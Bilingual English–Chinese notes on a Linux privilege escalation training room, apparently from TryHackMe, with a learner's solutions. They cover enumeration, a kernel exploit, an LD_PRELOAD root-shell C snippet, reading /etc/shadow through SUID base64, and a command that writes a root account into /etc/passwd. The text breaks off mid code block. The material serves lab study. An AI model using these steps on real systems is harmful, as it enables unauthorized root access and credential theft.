# Linux Privilege Escalation


## Task 1

Privilege escalation is a journey. There are no silver bullets, and much depends on the specific configuration of the target system. The kernel version, installed applications, supported programming languages, other users' passwords are a few key elements that will affect your road to the root shell.
权限提升是一个循序渐进的过程。没有万全之策，很大程度上取决于目标系统的具体配置。内核版本、已安装的应用程序、支持的编程语言以及其他用户的密码等都是影响你最终获得 root shell 的关键因素。

This room was designed to cover the main privilege escalation vectors and give you a better understanding of the process. This new skill will be an essential part of your arsenal whether you are participating in CTFs, taking certification exams, or working as a penetration tester.
这间教室旨在涵盖主要的权限提升途径，并帮助您更好地理解整个过程。无论您是参加 CTF 比赛、准备认证考试，还是从事渗透测试工作，这项新技能都将成为您必备的技能之一。


## Task 2


**What does "privilege escalation" mean?
“特权升级”是什么意思？**

At it's core, Privilege Escalation usually involves going from a lower permission account to a higher permission one. More technically, it's the exploitation of a vulnerability, design flaw, or configuration oversight in an operating system or application to gain unauthorized access to resources that are usually restricted from the users.
从本质上讲，权限提升通常是指从权限较低的账户升级到权限较高的账户。更准确地说，它是利用操作系统或应用程序中的漏洞、设计缺陷或配置疏忽，获取通常限制用户访问的资源的未授权访问权限。


**Why is it important? 为什么这很重要？**

It's rare when performing a real-world penetration test to be able to gain a foothold (initial access) that gives you direct administrative access. Privilege escalation is crucial because it lets you gain system administrator levels of access, which allows you to perform actions such as:
在实际渗透测试中，能够获得直接管理员权限的立足点（初始访问权限）非常罕见。权限提升至关重要，因为它能让你获得系统管理员级别的访问权限，从而执行以下操作：

- Resetting passwords 重置密码
- Bypassing access controls to compromise protected data
  绕过访问控制以破坏受保护的数据
- Editing software configurations
  编辑软件配置
- Enabling  启用persistence 持久性
- Changing the privilege of existing (or new) users
  更改现有（或新）用户的权限
- Execute any administrative command
  执行任何管理命令


## Task 3

**Note: Launch the target machine attached to this task to follow along.
注意：启动与此任务关联的目标计算机以跟随操作。**

**You can launch the target machine and access it directly from your browser.
您可以启动目标机器，并直接通过浏览器访问它。**

**Alternatively, you can access it over
或者，您可以通过以下方式访问它：SSH with the low-privilege user credentials below:
使用以下低权限用户凭据：
**

**Username: karen 用户名：凯伦**

**Password: Password1 密码：Password1**

Enumeration is the first step you have to take once you gain access to any system. You may have accessed the system by exploiting a critical vulnerability that resulted in root-level access or just found a way to send commands using a low privileged account. Penetration testing engagements, unlike CTF machines, don't end once you gain access to a specific system or user privilege level. As you will see, enumeration is as important during the post-compromise phase as it is before.
枚举是获得任何系统访问权限后的第一步。您可能通过利用关键漏洞获得了 root 权限，或者只是找到了使用低权限帐户发送命令的方法。与 CTF 比赛不同，渗透测试并非在获得特定系统或用户权限级别后就结束了。正如您将看到的，枚举在攻破后的阶段与攻破前同样重要。

### hostname 主机名

The `hostname` command will return the hostname of the target machine. Although this value can easily be changed or have a relatively meaningless string (e.g. Ubuntu-3487340239), in some cases, it can provide information about the target system’s role within the corporate network (e.g. SQL-PROD-01 for a production SQL server).
`hostname` 命令将返回目标机器的主机名。虽然该值很容易更改，或者是一个相对无意义的字符串（例如 Ubuntu-3487340239），但在某些情况下，它可以提供有关目标系统在企业网络中的角色信息（例如，生产 SQL 服务器的主机名是 SQL-PROD-01）。


### uname -a

Will print system information giving us additional detail about the kernel used by the system. This will be useful when searching for any potential kernel vulnerabilities that could lead to privilege escalation.
将打印系统信息，提供有关系统所用内核的更多详细信息。这有助于查找可能导致权限提升的潜在内核漏洞。


### /proc/version       

The proc filesystem (procfs) provides information about the target system processes. You will find proc on many different Linux flavours, making it an essential tool to have in your arsenal.
proc 文件系统 (procfs) 提供有关目标系统进程的信息。您可以在许多不同的 Linux 发行版中找到 proc，使其成为您工具箱中必不可少的工具。

Looking at `/proc/version` may give you information on the kernel version and additional data such as whether a compiler (e.g. GCC) is installed.
查看 `/proc/version` 可以获取内核版本信息以及其他数据，例如是否安装了编译器（例如 GCC）。


### /etc/issue

Systems can also be identified by looking at the `/etc/issue` file. This file usually contains some information about the operating system but can easily be customized or changed. While on the subject, any file containing system information can be customized or changed. For a clearer understanding of the system, it is always good to look at all of these.
也可以通过查看 `/etc/issue` 文件来识别系统。该文件通常包含一些操作系统信息，但很容易被自定义或修改。事实上，任何包含系统信息的文件都可以被自定义或修改。为了更清楚地了解系统，最好查看所有这些文件。


### ps Command 

The `ps` command is an effective way to see the running processes on a Linux system. Typing `ps` on your terminal will show processes for the current shell.
`ps` 命令是查看 Linux 系统上运行进程的有效方法。在终端中输入 `ps` 命令将显示当前 shell 的进程。


The output of the `ps` (Process Status) will show the following;
`ps` （进程状态）的输出将显示以下内容；

- PID: The process ID (unique to the process)
  PID：进程 ID（每个进程的唯一标识符）
- TTY: Terminal type used by the user
  TTY：用户使用的终端类型
- Time: Amount of CPU time used by the process (this is NOT the time this process has been running for)
  时间：进程使用的 CPU 时间（并非进程已运行的时间）
- CMD: The command or executable running (will NOT display any command line parameter)
  CMD：正在运行的命令或可执行文件（不会显示任何命令行参数）

The “ps” command provides a few useful options.
“ps”命令提供了一些有用的选项。

- `ps -A`: View all running processes
  `ps -A` ：查看所有正在运行的进程
- `ps axjf`: View process tree (see the tree formation until `ps axjf` is run below)
  `ps axjf` ：查看进程树（见下方 `ps axjf` 运行之前的树状结构）


- `ps aux`: The `aux` option will show processes for all users (a), display the user that launched the process (u), and show processes that are not attached to a terminal (x). Looking at the ps aux command output, we can have a better understanding of the system and potential vulnerabilities.
  `ps aux` ： `aux` 选项将显示所有用户的进程 (a)、启动进程的用户 (u) 以及未连接到终端的进程 (x)。查看 ps aux 命令的输出，我们可以更好地了解系统及其潜在漏洞。

### env 环境

The `env` command will show environmental variables.
`env` 命令将显示环境变量。


The PATH variable may have a compiler or a scripting language (e.g. Python) that could be used to run code on the target system or leveraged for privilege escalation.
PATH 变量可能包含编译器或脚本语言（例如 Python），可用于在目标系统上运行代码或用于权限提升。


### sudo -l

The target system may be configured to allow users to run some (or all) commands with root privileges. The `sudo -l` command can be used to list all commands your user can run using `sudo`
目标系统可能配置为允许用户以 root 权限运行部分（或全部）命令。 可以使用 `sudo -l` 命令列出您的用户可以使用 `sudo` 运行的所有命令。


### ls

One of the common commands used in Linux is probably `ls`
Linux 中最常用的命令之一可能是 `ls`.

While looking for potential privilege escalation vectors, please remember to always use the `ls` command with the `-la` parameter. The example below shows how the “secret.txt” file can easily be missed using the `ls` or `ls -l` commands.
在查找潜在的权限提升途径时，请务必记住始终使用带有 `-la` 参数的 `ls` 命令。以下示例展示了使用 `ls` 或 `ls -l` 命令时很容易遗漏“secret.txt”文件 。


### Id

The `id` command will provide a general overview of the user’s privilege level and group memberships.
`id` 命令将提供用户权限级别和组成员身份的总体概览。

It is worth remembering that the `id` command can also be used to obtain the same information for another user as seen below.
值得注意的是， `id` 命令也可以用来获取其他用户的相同信息，如下所示。


### /etc/passwd

Reading the `/etc/passwd` file can be an easy way to discover users on the system.
读取 `/etc/passwd` 文件是发现系统用户的简便方法之一。


While the output can be long and a bit intimidating, it can easily be cut and converted to a useful list for brute-force attacks.
虽然输出结果可能很长，有点吓人，但很容易将其剪切并转换为可用于暴力破解攻击的有用列表。


Remember that this will return all users, some of which are system or service users that would not be very useful. Another approach could be to grep for “home” as real users will most likely have their folders under the “home” directory.
请注意，这将返回所有用户，其中一些是系统用户或服务用户，这些用户对我们没有太大用处。另一种方法是使用 grep 命令搜索“home”，因为真实用户的文件夹很可能位于“home”目录下。


### history 历史

Looking at earlier commands with the `history` command can give us some idea about the target system and, albeit rarely, have stored information such as passwords or usernames.
使用 `history` 命令查看以前的命令可以让我们了解目标系统的一些信息，并且虽然很少见，但可能存储了密码或用户名等信息。


### ifconfig

The target system may be a pivoting point to another network. The `ifconfig` command will give us information about the network interfaces of the system. The example below shows the target system has three interfaces (eth0, tun0, and tun1). Our attacking machine can reach the eth0 interface but can not directly access the two other networks.
目标系统可能是通往其他网络的跳板。ifconfig `ifconfig` 可以提供系统网络接口的信息。下面的示例显示目标系统有三个接口（eth0、tun0 和 tun1）。我们的攻击机可以访问 eth0 接口，但无法直接访问其他两个网络。


This can be confirmed using the `ip route` command to see which network routes exist.
可以使用 `ip route` 命令查看存在哪些网络路由来确认这一点。


### netstat

Following an initial check for existing interfaces and network routes, it is worth looking into existing communications. The `netstat` command can be used with several different options to gather information on existing connections.
在初步检查现有接口和网络路由之后，值得进一步研究现有通信情况。可以使用 `netstat` 命令及其多个不同的选项来收集有关现有连接的信息。


- `netstat -a`: shows all listening ports and established connections.
  `netstat -a` ：显示所有监听端口和已建立的连接。
- `netstat -at` or `netstat -au` can also be used to list TCP or UDP protocols respectively.
  `netstat -at` 或 `netstat -au` 也可以分别用于列出 TCP 或 UDP 协议。
- `netstat -l`: list ports in “listening” mode. These ports are open and ready to accept incoming connections. This can be used with the “t” option to list only ports that are listening using the
  `netstat -l` ：列出处于“监听”模式的端口。这些端口已打开并准备好接受传入连接。可以使用“t”选项仅列出正在监听的端口。TCP protocol (below) 协议（如下）


- `netstat -s`: list network usage statistics by protocol (below) This can also be used with the `-t` or `-u` options to limit the output to a specific protocol.
  `netstat -s` ：按协议列出网络使用统计信息（如下） 也可以使用 `-t` 或 `-u` 选项将输出限制为特定协议。


- `netstat -tp`: list connections with the service name and PID information.
  `netstat -tp` ：列出连接及其服务名称和 PID 信息。


This can also be used with the `-l` option to list listening ports (below)
也可以使用 `-l` 选项来列出监听端口（如下所示）。


We can see the “PID/Program name” column is empty as this process is owned by another user.
我们可以看到“ PID /程序名称”列为空，因为该进程属于其他用户。

Below is the same command run with root privileges and reveals this information as 2641/nc (netcat)
下面这个命令是用 root 权限运行的，结果显示为 2641/nc (netcat)


``

- `netstat -i`: Shows interface statistics. We see below that “eth0” and “tun0” are more active than “tun1”.
  `netstat -i` ：显示接口统计信息。如下所示，“eth0”和“tun0”比“tun1”更活跃。


The `netstat` usage you will probably see most often in blog posts, write-ups, and courses is `netstat -ano` which could be broken down as follows;
在博客文章、文章和课程中，您最常看到 `netstat` 用法可能是 `netstat -ano` ，它可以分解如下：

- `-a`: Display all sockets
  `-a` ：显示所有套接字
- `-n`: Do not resolve names
  `-n` ：不解析名称
- `-o`: Display timers
  `-o` ：显示计时器


### find Command 查找命令

Searching the target system for important information and potential privilege escalation vectors can be fruitful. The built-in “find” command is useful and worth keeping in your arsenal.
在目标系统中搜索重要信息和潜在的权限提升途径可能卓有成效。内置的“find”命令非常实用，值得掌握。

Below are some useful examples for the “find” command.
以下是“find”命令的一些有用示例。

**Find files:  查找文件：**

- `find . -name flag1.txt`: find the file named “flag1.txt” in the current directory
  `find . -name flag1.txt` ：在当前目录中查找名为“flag1.txt”的文件
- `find /home -name flag1.txt`: find the file names “flag1.txt” in the /home directory
  `find /home -name flag1.txt` ：在 /home 目录中查找名为“flag1.txt”的文件
- `find / -type d -name config`: find the directory named config under “/”
  `find / -type d -name config` : 查找“/”下名为 config 的目录
- `find / -type f -perm 0777`: find files with the 777 permissions (files readable, writable, and executable by all users)
  `find / -type f -perm 0777` : 查找权限为 777 的文件（所有用户均可读、可写和可执行的文件）
- `find / -perm a=x`: find executable files
  `find / -perm a=x` ：查找可执行文件
- `find /home -user frank`: find all files for user “frank” under “/home”
  `find /home -user frank` : 查找用户“frank”在“/home”目录下的所有文件
- `find / -mtime 10`: find files that were modified in the last 10 days
  `find / -mtime 10` ：查找最近 10 天内修改过的文件
- `find / -atime 10`: find files that were accessed in the last 10 day
  `find / -atime 10` ：查找最近 10 天内访问过的文件
- `find / -cmin -60`: find files changed within the last hour (60 minutes)
  `find / -cmin -60` ：查找最近一小时（60 分钟）内更改的文件
- `find / -amin -60`: find files accesses within the last hour (60 minutes)
  `find / -amin -60` ：查找最近一小时（60 分钟）内的文件访问记录
- `find / -size 50M`: find files with a 50 MB size
  `find / -size 50M` ：查找大小为 50 MB 的文件

This command can also be used with (+) and (-) signs to specify a file that is larger or smaller than the given size.
该命令还可以与 (+) 和 (-) 符号一起使用，以指定大于或小于给定大小的文件。


The example above returns files that are larger than 100 MB. It is important to note that the “find” command tends to generate errors which sometimes makes the output hard to read. This is why it would be wise to use the “find” command with “-type f 2>/dev/null” to redirect errors to “/dev/null” and have a cleaner output (below).
上面的示例返回的文件大于 100 MB。需要注意的是，“find”命令容易产生错误，有时会导致输出难以阅读。因此，最好使用带有“-type f 2>/dev/null”参数的“find”命令，将错误重定向到“/dev/null”，从而获得更清晰的输出（如下所示）。


Folders and files that can be written to or executed from:
可写入或可执行的文件夹和文件：

- `find / -writable -type d 2>/dev/null` : Find world-writeable folders
  `find / -writable -type d 2>/dev/null` ：查找全局可写文件夹
- `find / -perm -222 -type d 2>/dev/null`: Find world-writeable folders
  `find / -perm -222 -type d 2>/dev/null` : 查找全局可写文件夹
- `find / -perm -o w -type d 2>/dev/null`: Find world-writeable folders
  `find / -perm -o w -type d 2>/dev/null` : 查找全局可写文件夹

The reason we see three different “find” commands that could potentially lead to the same result can be seen in the manual document. As you can see below, the perm parameter affects the way “find” works.
之所以会出现三个可能得出相同结果的“查找”命令，原因可以在手册文档中找到。如下所示，perm 参数会影响“查找”命令的运行方式。


- `find / -perm -o x -type d 2>/dev/null` : Find world-executable folders
  `find / -perm -o x -type d 2>/dev/null` ：查找全局可执行文件夹

Find development tools and supported languages:
查找开发工具和支持的语言：

- `find / -name perl*`
- `find / -name python*`
- `find / -name gcc*`

Find specific file permissions:
查找特定文件权限：

Below is a short example used to find files that have the SUID bit set. The SUID bit allows the file to run with the privilege level of the account that owns it, rather than the account which runs it. This allows for an interesting privilege escalation path,we will see in more details on task 6. The example below is given to complete the subject on the “find” command.
以下是一个简短的示例，用于查找设置了 SUID 位的文件。SUID 位允许文件以其所有者帐户的权限级别运行，而不是以其运行帐户的权限级别运行。这提供了一种有趣的权限提升途径，我们将在任务 6 中详细介绍。以下示例旨在完善关于“find”命令的主题。

- `find / -perm -u=s -type f 2>/dev/null`: Find files with the SUID bit, which allows us to run the file with a higher privilege level than the current user.
  `find / -perm -u=s -type f 2>/dev/null` : 查找带有 SUID 位的文件，这允许我们以比当前用户更高的权限级别运行该文件。

### General Linux Commands 通用 Linux 命令

As we are in the Linux realm, familiarity with Linux commands, in general, will be very useful. Please spend some time getting comfortable with commands such as `find`, `locate`, `grep`, `cut`, `sort`, etc.
由于我们身处 Linux 领域，熟悉 Linux 命令将非常有用。请花些时间熟悉诸如 `find` 、 `locate` 、 `grep` 、 `cut` 、 `sort` 等命令。





以下命令查看 exploit 文件

```
searchsploit -x 37292 
```






## Task 4

Several tools can help you save time during the enumeration process. These tools should only be used to save time knowing they may miss some privilege escalation vectors. Below is a list of popular Linux enumeration tools with links to their respective Github repositories.
在枚举过程中，一些工具可以帮助您节省时间。但请注意，这些工具仅用于节省时间，因为它们可能会遗漏一些提权途径。以下列出了一些常用的 Linux 枚举工具，并附有它们各自 GitHub 代码库的链接。

The target system’s environment will influence the tool you will be able to use. For example, you will not be able to run a tool written in Python if it is not installed on the target system. This is why it would be better to be familiar with a few rather than having a single go-to tool.
目标系统的环境会影响您可以使用的工具。例如，如果目标系统上没有安装 Python，您将无法运行用 Python 编写的工具。因此，最好熟悉几种工具，而不是只依赖一种。

- **LinPeas**: [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS(opens in new tab)](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- **LinEnum:** [https://github.com/rebootuser/LinEnum(opens in new tab)](https://github.com/rebootuser/LinEnum)
- **LES (（Linux Exploit Suggester):  漏洞利用建议器）：**[https://github.com/mzet-/linux-exploit-suggester(opens in new tab)](https://github.com/mzet-/linux-exploit-suggester)
- **Linux Smart Enumeration:  智能枚举：**[https://github.com/diego-treitos/linux-smart-enumeration (opens in new tab)](https://github.com/diego-treitos/linux-smart-enumeration)
- **Linux Priv Checker: 隐私检查器：** https://github.com/linted/linuxprivchecker



## Task 5

**Note: Launch the target machine attached to this task to follow along.
注意：启动与此任务关联的目标计算机以跟随操作。**

**You can launch the target machine and access it directly from your browser.
您可以启动目标机器，并直接通过浏览器访问它。**

**Alternatively, you can access it over
或者，您可以通过以下方式访问它：SSH with the low-privilege user credentials below:
使用以下低权限用户凭据：**

**Username: karen 用户名：凯伦**

**Password: Password1 密码：Password1**

Privilege escalation ideally leads to root privileges. This can sometimes be achieved simply by exploiting an existing vulnerability, or in some cases by accessing another user account that has more privileges, information, or access.
权限提升的理想目标是获得 root 权限。有时，只需利用现有漏洞即可实现这一点；有时，则需要访问拥有更高权限、更多信息或访问权限的其他用户帐户。


Unless a single vulnerability leads to a root shell, the privilege escalation process will rely on misconfigurations and lax permissions.
除非某个漏洞直接导致获得 root shell，否则权限提升过程将依赖于配置错误和权限松懈。


The kernel on Linux systems manages the communication between components such as the memory on the system and applications. This critical function requires the kernel to have specific privileges; thus, a successful exploit will potentially lead to root privileges.
Linux 内核 系统管理组件之间的通信，例如： 系统和应用程序的内存。这项关键功能 需要内核拥有特定权限；因此，成功 利用此漏洞可能会导致获得 root 权限。


The Kernel exploit methodology is simple;
内核漏洞利用方法很简单；

1. Identify the kernel version
   确定内核版本
2. Search and find an exploit code for the kernel version of the target system
   搜索并找到针对目标系统内核版本的漏洞利用代码
3. Run the exploit  运行漏洞利用程序

Although it looks simple, please remember that a failed kernel exploit can lead to a system crash. Make sure this potential outcome is acceptable within the scope of your penetration testing engagement before attempting a kernel exploit.
虽然看起来很简单，但请记住，内核漏洞利用失败可能导致系统崩溃。在尝试内核漏洞利用之前，请确保这种潜在后果在您的渗透测试范围内是可以接受的。


**Research sources:  研究资料来源：**

1. Based on your findings, you can use Google to search for an existing exploit code.
   根据你的发现，你可以使用谷歌搜索现有的漏洞利用代码。
2. Sources such as [https://www.cvedetails.com/(opens in new tab)](https://www.cvedetails.com/)
   例如 https://www.cvedetails.com/ 这样的来源 can also be useful.
   也可能有用。
3. Another alternative would be to use a script like LES (
   另一种方法是使用类似 LES 的脚本（Linux Exploit Suggester) but remember that these tools can generate false positives (report a kernel vulnerability that does not affect the target system) or false negatives (not report any kernel vulnerabilities although the kernel is vulnerable).
   Exploit Suggester）但请记住，这些工具可能会产生误报（报告一个不会影响目标系统的内核漏洞）或漏报（尽管内核存在漏洞，但不会报告任何内核漏洞）。

**Hints/Notes: 提示/备注：**

1. Being too specific about the kernel version when searching for exploits on Google, Exploit-db, or searchsploit
   在 Google、Exploit-db 或 searchsploit 等网站上搜索漏洞利用程序时，内核版本信息过于具体可能会造成问题。
2. Be sure you understand how the exploit code works BEFORE you launch it. Some exploit codes can make changes on the operating system that would make them unsecured in further use or make irreversible changes to the system, creating problems later. Of course, these may not be great concerns within a lab or CTF environment, but these are absolute no-nos during a real penetration testing engagement.
   在运行漏洞利用代码之前，务必了解其工作原理。某些漏洞利用代码可能会修改操作系统，导致其在后续使用中变得不安全，或者对系统造成不可逆的更改，从而引发后续问题。当然，在实验室或 CTF 环境中，这些可能并非什么大问题，但在实际的渗透测试中，这些都是绝对禁止的。
3. Some exploits may require further interaction once they are run. Read all comments and instructions provided with the exploit code.
   某些漏洞利用程序运行后可能需要进一步交互。请阅读漏洞利用代码附带的所有注释和说明。
4. You can transfer the exploit code from your machine to the target system using the `SimpleHTTPServer` Python module and `wget` respectively.
   您可以使用 `SimpleHTTPServer` Python 模块和 `wget` 分别将漏洞利用代码从您的机器传输到目标系统。

首先检查系统内核



发现和上面的一样，使用msf



发现该模块需要一个低权限的session



所以我们打开msf的 multi/handler 监听模块，监听本地端口4444，



然后用ssh连接的shell使用python弹一个shell到msf里面生成一个session id，但是延迟太高连接不上



上网查询后，发现msf还有一个ssh_login 模块，直接使用该模块生成session id



生成session后，使用原来的模块进行连接



没有session创建，而且靶场还被破坏了



重复多次最后发现可能是靶场不允许msf自动化模块，尝试手动利用searchsploit中的37292.c

将37292.c拿到当前目录



通过scp传入靶机



在靶机中编译37292.c为payload，并运行，最后得到root



通过根目录搜索，拿到flag






## Task 6

**Note: Launch the target machine attached to this task to follow along.
注意：启动与此任务关联的目标计算机以跟随操作。**

**You can launch the target machine and access it directly from your browser.
您可以启动目标机器，并直接通过浏览器访问它。**

**Alternatively, you can access it over
或者，您可以通过以下方式访问它：SSH with the low-privilege user credentials below:
使用以下低权限用户凭据：
**

**Username: karen 用户名：凯伦**

**Password: Password1 密码：Password1**

The sudo command, by default, allows you to run a program with root privileges. Under some conditions, system administrators may need to give regular users some flexibility on their privileges. For example, a junior SOC analyst may need to use Nmap regularly but would not be cleared for full root access. In this situation, the system administrator can allow this user to only run Nmap with root privileges while keeping its regular privilege level throughout the rest of the system.
默认情况下，sudo 命令允许您以 root 权限运行程序。在某些情况下，系统管理员可能需要给予普通用户一定的权限灵活性。例如，初级 SOC 分析师可能需要经常使用 Nmap ，但没有获得完整的 root 访问权限。在这种情况下，系统管理员可以允许该用户仅以 root 权限运行 Nmap ，同时保持其在系统其他部分使用的常规权限级别。

Any user can check its current situation related to root privileges using the `sudo -l` command.
任何用户都可以使用 `sudo -l` 命令检查其当前与 root 权限相关的情况。

[https://gtfobins.github.io/(opens in new tab)](https://gtfobins.github.io/) is a valuable source that provides information on how any program, on which you may have sudo rights, can be used.
https://gtfobins.github.io/ 是一个很有价值的资源，它提供了有关如何使用您可能拥有 sudo 权限的任何程序的信息。

**Leverage application functions
利用应用程序功能**

Some applications will not have a known exploit within this context. Such an application you may see is the Apache2 server.
有些应用程序在这种情况下可能不存在已知的漏洞利用方式。例如，Apache2 服务器就是这样一款应用程序。

In this case, we can use a "hack" to leak information leveraging a function of the application. As you can see below, Apache2 has an option that supports loading alternative configuration files (`-f` : specify an alternate ServerConfigFile).
在这种情况下，我们可以利用应用程序的某个功能，通过“黑客”手段泄露信息。如下所示，Apache2 提供了一个选项，支持加载备用配置文件（ `-f` ：指定备用 ServerConfigFile）。


Loading the `/etc/shadow` file using this option will result in an error message that includes the first line of the `/etc/shadow` file.
使用此选项加载 `/etc/shadow` 文件将导致错误消息，其中包含 `/etc/shadow` 文件的第一行。

**Leverage LD_PRELOAD 利用 LD_PRELOAD**

On some systems, you may see the LD_PRELOAD environment option.
在某些系统中，您可能会看到 LD_PRELOAD 环境选项。


LD_PRELOAD is a function that allows any program to use shared libraries. This [blog post(opens in new tab)](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/) will give you an idea about the capabilities of LD_PRELOAD. If the "env_keep" option is enabled we can generate a shared library which will be loaded and executed before the program is run. Please note the LD_PRELOAD option will be ignored if the real user ID is different from the effective user ID.
LD_PRELOAD 函数允许任何程序使用共享库。本文将介绍 LD_PRELOAD 的功能。如果启用了“env_keep”选项，我们可以生成一个共享库，该库将在程序运行之前加载并执行。请注意，如果实际用户 ID 与有效用户 ID 不同，则 LD_PRELOAD 选项将被忽略。

The steps of this privilege escalation vector can be summarized as follows;
该权限提升向量的步骤可概括如下：

1. Check for LD_PRELOAD (with the env_keep option)
   检查 LD_PRELOAD（使用 env_keep 选项）
2. Write a simple C code compiled as a share object (.so extension) file
   编写一个简单的 C 代码，并将其编译成共享对象（.so 扩展名）文件。
3. Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file
   使用 sudo 权限运行程序，并将 LD_PRELOAD 选项指向我们的 .so 文件。

The C code will simply spawn a root shell and can be written as follows;
C 代码会生成一个 root shell，可以写成如下形式：

\#include <stdio.h> ＃包括<stdio.h>
\#include <sys/types.h> ＃包括<sys/types.h>
\#include <stdlib.h> ＃包括<stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}

We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters;
我们可以将此代码保存为 shell.c，并使用 gcc 编译器，通过以下参数将其编译成共享对象文件；

```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```


We can now use this shared object file when launching any program our user can run with sudo. In our case, Apache2, find, or almost any of the programs we can run with sudo can be used.
现在，我们可以在启动任何用户可以使用 sudo 运行的程序时使用这个共享对象文件。在本例中，可以使用 Apache2、find 或几乎任何可以使用 sudo 运行的程序。

We need to run the program by specifying the LD_PRELOAD option, as follows;
我们需要通过指定 LD_PRELOAD 选项来运行该程序，如下所示；

`sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`
sudo LD_PRELOAD=/home/user/ldpreload/shell.so 查找

This will result in a shell spawn with root privileges.
这将生成一个具有 root 权限的 shell。


sudo -l查看该用户的可用root权限执行的程序



使用find命令查找flag2.txt文件





使用find提权，并查看用户密码








## Task 7

**Note: Launch the target machine attached to this task to follow along.
注意：启动与此任务关联的目标计算机以跟随操作。**

**You can launch the target machine and access it directly from your browser.
您可以启动目标机器，并直接通过浏览器访问它。**

**Alternatively, you can access it over
或者，您可以通过以下方式访问它：SSH with the low-privilege user credentials below:
使用以下低权限用户凭据：
**

**Username: karen 用户名：凯伦**

**Password: Password1 密码：Password1**

Much of Linux privilege controls rely on controlling the users and files interactions. This is done with permissions. By now, you know that files can have read, write, and execute permissions. These are given to users within their privilege levels. This changes with SUID (Set-user Identification) and SGID (Set-group Identification). These allow files to be executed with the permission level of the file owner or the group owner, respectively.
Linux 的大部分权限控制都依赖于对用户和文件交互的控制。这是通过权限来实现的。现在您应该知道，文件可以拥有读取、写入和执行权限。这些权限会根据用户的权限级别分配给他们。SUID（设置用户标识）和 SGID（设置组标识）会改变这种情况。它们分别允许以文件所有者或组所有者的权限级别执行文件。

You will notice these files have an “s” bit set showing their special permission level.
你会注意到这些文件都设置了“s”位，表示它们的特殊权限级别。

`find / -type f -perm -04000 -ls 2>/dev/null` will list files that have SUID or SGID bits set.
`find / -type f -perm -04000 -ls 2>/dev/null` 将列出设置了 SUID 或 SGID 位的文件。


A good practice would be to compare executables on this list with GTFOBins ([https://gtfobins.github.io(opens in new tab)](https://gtfobins.github.io/)). Clicking on the SUID button will filter binaries known to be exploitable when the SUID bit is set (you can also use this link for a pre-filtered list [https://gtfobins.github.io/#+suid(opens in new tab)](https://gtfobins.github.io/#+suid)).
一个好的做法是将此列表中的可执行文件与 GTFOBins（ https://gtfobins.github.io ）进行比较。点击 SUID 按钮将筛选出已知在 SUID 位设置时可被利用的二进制文件（您也可以使用此链接获取预先筛选的列表： https://gtfobins.github.io/#+suid ）。

The list above shows that nano has the SUID bit set. Unfortunately, GTFObins does not provide us with an easy win. Typical to real-life privilege escalation scenarios, we will need to find intermediate steps that will help us leverage whatever minuscule finding we have.
上面的列表显示 nano 程序已设置 SUID 位。遗憾的是，GTFObins 并没有提供简单的解决方案。就像现实中的提权场景一样，我们需要找到一些中间步骤，以便利用我们掌握的任何微弱信息。


**Note**: The attached VM has another binary with SUID other than `nano`.
**注意** ：所附虚拟机除了 `nano` 之外，还有另一个具有 SUID 的二进制文件。

The SUID bit set for the nano text editor allows us to create, edit and read files using the file owner’s privilege. Nano is owned by root, which probably means that we can read and edit files at a higher privilege level than our current user has. At this stage, we have two basic options for privilege escalation: reading the `/etc/shadow` file or adding our user to `/etc/passwd`.
nano 文本编辑器设置的 SUID 位允许我们使用文件所有者的权限创建、编辑和读取文件。nano 的所有者是 root 用户，这可能意味着我们可以以比当前用户更高的权限级别读取和编辑文件。目前，我们有两种基本的提权方法：读取 `/etc/shadow` 文件或将我们的用户添加到 `/etc/passwd` 中。

Below are simple steps using both vectors.
以下是使用这两个向量的简单步骤。

reading the `/etc/shadow` file
读取 `/etc/shadow` 文件

We see that the nano text editor has the SUID bit set by running the `find / -type f -perm -04000 -ls 2>/dev/null` command.
我们通过运行 `find / -type f -perm -04000 -ls 2>/dev/null` 命令看到 nano 文本编辑器设置了 SUID 位。

`nano /etc/shadow` will print the contents of the `/etc/shadow` file. We can now use the unshadow tool to create a file crackable by John the Ripper. To achieve this, unshadow needs both the `/etc/shadow` and `/etc/passwd` files.
使用 `nano /etc/shadow` 可以打印出 `/etc/shadow` 文件的内容。现在我们可以使用 `unshadow` 工具创建一个可以被 John the Ripper 破解的文件。为此，`unshadow` 需要同时存在 `/etc/shadow` 和 `/etc/passwd` 文件。


The unshadow tool’s usage can be seen below;
下面可以看到取消阴影工具的使用方法；
`unshadow passwd.txt shadow.txt > passwords.txt`


With the correct wordlist and a little luck, John the Ripper can return one or several passwords in cleartext. For a more detailed room on John the Ripper, you can visit https://tryhackme.com/room/johntheripperbasics.
只要拥有正确的单词列表和一点运气，“开膛手约翰”就能以明文形式返回一个或多个密码。想要了解更多关于“开膛手约翰”的信息，您可以访问 https://tryhackme.com/room/johntheripperbasics 。


The other option would be to add a new user that has root privileges. This would help us circumvent the tedious process of password cracking. Below is an easy way to do it:
另一种方法是添加一个拥有 root 权限的新用户。这可以帮助我们绕过繁琐的密码破解过程。以下是一种简单的操作方法：


We will need the hash value of the password we want the new user to have. This can be done quickly using the openssl tool on Kali Linux.
我们需要新用户密码的哈希值。在 Kali Linux 系统上使用 openssl 工具可以快速完成此操作。


We will then add this password with a username to the `/etc/passwd` file.
然后，我们将把这个密码和用户名添加到 `/etc/passwd` 文件中。


Once our user is added (please note how `root:/bin/bash` was used to provide a root shell) we will need to switch to this user and hopefully should have root privileges.
一旦我们的用户被添加进来（请注意如何使用 `root:/bin/bash` 提供 root shell），我们将需要切换到该用户，并且应该能够获得 root 权限。


Now it's your turn to use the skills you were just taught to find a vulnerable binary.
现在轮到你运用刚刚学到的技能来寻找一个存在漏洞的二进制文件了。

运行

```
find / -type f -perm -04000 -ls 2>/dev/null
```



发现有base64，运行

```
base64 /etc/shadow | base64 -d
```



使用openssl得到linux系统能用的密码哈希



运行

```
 echo "hacker:$1$THM$WnbwlliCqxFRQepUTCkUT1:0:0:root:/root:/bin/bash" | base64 | base64 -d > /etc/passwd
```

发现base64只能读，不能写



重新查看/etc/shadow



将

```
